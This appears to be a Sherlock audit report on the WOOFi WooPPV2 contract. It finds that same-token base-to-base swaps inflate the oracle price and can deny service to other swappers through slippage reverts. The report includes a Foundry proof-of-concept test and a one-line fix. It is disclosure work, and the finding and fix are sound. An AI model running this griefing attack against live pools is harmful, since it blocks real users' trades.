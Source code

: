 Mythical Menthol Mongoose

medium

# Price of a base token can be inflated by swapping same base tokens, leading to slippage reverts causing DOS to Woo system

## Summary
Users can swap from WETH to WETH using swapBaseToBase. And it inflates the price by a % without any addition/removal of any tokens from the reserve. So price is just artificially inflatable.

## Vulnerability Detail

https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L513

https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L513-L578

This inflation of price can impact the users trying to swap and they will hit slippage reverts causing DOS. 

**Attack flow**

1. on every block, attacker swaps from WETH to WETH
2. victim's swap action with 0.5% slippage

But the victim's swap will revert because the attacker inflated the WETH price on pool with little spread and swap fees. MEV strategies  for this strategy are possible if the fees and spreads are low.


Imagine a protocol that directly competes with WOO, they can make a bot to run this attack and constantly cause slippage reverts and DOS to buy actions. So the only cons of this attack is if the fees  & spread are high, then attack cannot be profitable, but still some griefer who wants to DOS woo pools, can cause this attack. As a competetor of woo, I am even ready to spend $100k to cause this DOS attack even if its not profitable, and100k is enough to last atleast a month worth of blocks on BNB and other chains with high block-times.

**POC**

1. First install, `forge install foundry-rs/forge-std` then
2. Run the below POC with `forge t --mt testBaseToBase  -vvvv` if rpc fails then pick other rpc from https://chainlist.org/?search=arb and paste on `setUp` function's first line.

<details> 
<summary> POC</summary>

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    import  "../../lib/forge-std/src/Test.sol";
    import "../../contracts/WooPPV2.sol";
    import "../../contracts/wooracle/WooracleV2_2.sol";
    import {IERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
    import "../../contracts/interfaces/AggregatorV3Interface.sol";

    contract WooPPV2Test is Test {

        address constant USDC = 0xaf88d065e77c8cC2239327C5EDb3A432268e5831; 
        address constant USDCe = 0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8; 
        address constant WETH = 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1; // @ $4000
        address constant ARB = 0x912CE59144191C1204E64559FE8253a0e49E6548; // @ $2
        address constant WOO = 0xcAFcD85D8ca7Ad1e1C6F82F651fA15E33AEfD07b; // @ $0.5
        address constant USDT = 0xFd086bC7CD5C481DCC9C85ebE478A1C0b69FCbb9;


        address constant CL_USDT = 0x3f3f5dF88dC9F13eac63DF89EC16ef6e7E25DdE7;
        address constant CL_WETH = 0x639Fe6ab55C921f74e7fac1ee960C0B6293ba612;
        address constant CL_ARB = 0xb2A824043730FE05F3DA2efaFa1CBbe83fa548D6;
        address constant CL_WOO = 0x5e2b5C5C07cCA3437c4D724225Bb42c7E55d1597;

        address owner = address(1);

        WooPPV2 pool;
        WooracleV2_2 oracle;
    

        function getPrice(address cl) internal view returns(uint128) {
            (, int256 p, , , ) = AggregatorV3Interface(cl).latestRoundData();
            return uint128(uint(p));
        }

        function setUp() public {
            vm.createSelectFork("https://rpc.tornadoeth.cash/arbitrum", 187381785 - 10);

            vm.startPrank(owner);

            oracle = new WooracleV2_2();
            pool = new WooPPV2(USDT);

            pool.init(address(oracle), owner);
            oracle.setAdmin(address(pool), true);

            deal(USDT, owner, 2000_000e6); // 2M$
            deal(ARB, owner, 250_000e18); // 500k$
            deal(WETH, owner, 500e18); // 2M$
            deal(WOO, owner, 0.5 * 1000_000e18); // 500k$

            IERC20(ARB).approve(address(pool), type(uint256).max);
            IERC20(WOO).approve(address(pool), type(uint256).max);
            IERC20(USDT).approve(address(pool), type(uint256).max);
            IERC20(WETH).approve(address(pool), type(uint256).max);

            pool.depositAll(WOO);
            pool.depositAll(WETH);
            pool.depositAll(ARB);
            pool.depositAll(USDT);

            oracle.setWooPP(address(pool));
            oracle.setQuoteToken(USDT, CL_USDT);

            oracle.setCLOracle(ARB, CL_ARB, true);
            // oracle.setCLOracle(WOO, CL_WOO, true);
            oracle.setCLOracle(USDT, CL_USDT, true);
            oracle.setCLOracle(WETH, CL_WETH, true);

            // https://discord.com/channels/812037309376495636/1217124971139174481/1218920635187855390
            // oracle.postState(_base, _price, _spread, _coeff);
            oracle.postState(USDT, getPrice(CL_USDT), 50000000000000, 500000000);
            oracle.postState(WETH, getPrice(CL_WETH), 500000000000000, 1000000000);
            oracle.postState(ARB, getPrice(CL_ARB), 1000000000000000, 100000000);
            oracle.postState(WOO, getPrice(CL_WOO), 5000000000000000, 100000000000);

            // pool.setTokenInfo(token, _feeRate, _maxGamma, _maxNotionalSwap);
            pool.setTokenInfo(USDT, 25, 500000000000000, 1000000000000); // 0.025% swap fee
            pool.setTokenInfo(ARB, 25, 5000000000000000, 500000000000); 
            pool.setTokenInfo(WOO, 25, 10000000000000000, 500000000000); 
            pool.setTokenInfo(WETH, 25, 3000000000000000, 1000000000000); 


            vm.stopPrank();

            vm.label(address(pool), "WOO_POOL");
            vm.label(address(oracle), "WOO_ORACLE");
            vm.label(address(owner), "OWNER");
            vm.label(WETH, "WETH");
            vm.label(USDT, "USDT");
            vm.label(ARB, "ARB");
            vm.label(WOO, "WOO");

        }


        function testBaseToBase() external {
            (uint p,) = oracle.price(WETH);
            console.log("WETH price before", p);    

            address from = WETH;
            address to = WETH;
            uint amount = 50e18;

            deal(from, address(this), amount);
            IERC20(from).transfer(address(pool), amount);
            pool.swap(from, to, amount, 0, address(this), owner); 

            (p,) = oracle.price(WETH);
            console.log("WETH price after", p);    
        }



    }





</details>




## Impact
DOS to swappers, because slippage mismatch. And attacker can advertise on twitter on WOO system being vulnerable to DOS.

## Code Snippet

https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L513-L578

## Tool used

Manual Review

## Recommendation

Mofify `WooPPV2.swap()` 

https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L166

```diff
    function swap(
        address fromToken,
        address toToken,
        uint256 fromAmount,
        uint256 minToAmount,
        address to,
        address rebateTo
    ) external override returns (uint256 realToAmount) {
        if (fromToken == quoteToken) {
            // case 1: quoteToken --> baseToken
            realToAmount = _sellQuote(toToken, fromAmount, minToAmount, to, rebateTo);
        } else if (toToken == quoteToken) {
            // case 2: fromToken --> quoteToken
            realToAmount = _sellBase(fromToken, fromAmount, minToAmount, to, rebateTo);
-       } else {
+       } else if (fromToken != toToken){
            // case 3: fromToken --> toToken (base to base)
            realToAmount = _swapBaseToBase(fromToken, toToken, fromAmount, minToAmount, to, rebateTo);
        }
    }
```